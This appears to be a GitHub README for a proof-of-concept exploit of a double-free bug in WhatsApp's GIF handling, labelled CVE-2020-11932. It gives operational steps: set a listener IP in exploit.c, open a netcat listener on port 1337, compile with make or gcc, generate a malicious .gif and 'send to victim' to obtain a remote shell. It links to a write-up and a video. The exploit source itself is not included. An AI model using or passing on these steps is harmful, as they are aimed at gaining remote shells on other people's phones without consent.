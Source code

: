 # CVE-2020-11932
 Double-Free bug in WhatsApp exploit poc.
 
 #Note: Make sure to set the listner ip in exploit.c inorder to get shell
 
 - nc -lvp 1337 or whatever port.
 
 - and then compile.
 
 - make
 
 - or 
 
 - gcc -o exploit egif_lib.c exploit.c
 
 - then run ./exploit and save the content to <filename>.gif
 
 - and send to victim.
 
 ### Source
 https://awakened1712.github.io/hacking/hacking-whatsapp-gif-rce/.
 
 ### Poc_Video
 https://drive.google.com/file/d/1XP7K5zkKEhmbEONvRpjrkTQ5pwpBc6G_/view?usp=sharing
         
 
 
 I don't own this , if you have issues please contact the owner
 
 
  
